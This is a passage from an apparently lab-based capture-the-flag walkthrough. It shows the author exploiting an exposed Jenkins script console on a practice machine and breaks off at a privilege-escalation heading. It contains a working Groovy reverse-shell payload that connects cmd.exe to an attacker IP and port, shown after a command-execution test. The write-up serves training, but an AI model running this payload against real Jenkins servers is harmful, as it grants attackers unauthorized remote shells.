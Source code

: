 ![](https://i.imgur.com/4rYCok9.png)



It discovered one directory: **/askjeeves**

### askjeeves - TCP 50000

Going **/askjeeves**, I saw Jenkin v2.87 running on it:

![](https://i.imgur.com/PK0l1hF.png)


## Shell as kohsuke
### Jenkins RCE with Groovy Script
Following [this articles](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script), I decided to try reverse shell spawning on `/askjeeves/script`.

![](https://i.imgur.com/5CLDAkK.png)


I confirmed that command execution works using the command below:


```powershell
def process = "PowerShell.exe whoami".execute()
println "Found text ${process.text}"
```

**whoami** is being exeucted and it returned **kohsuke**:

![](https://i.imgur.com/A4PHBs8.png)


Using payload I found from [blog.pentesteracademy.com](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6), I was able to spawn a reverse shell as **kohsuke**.

Below is the script that I ran:

```powershell
String host="10.10.14.17";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Now I have a shell as **kohsuke**:

![](https://i.imgur.com/SxjwqeA.png)


## Privesc: kohsuke to root
### JuicyPotato Attack
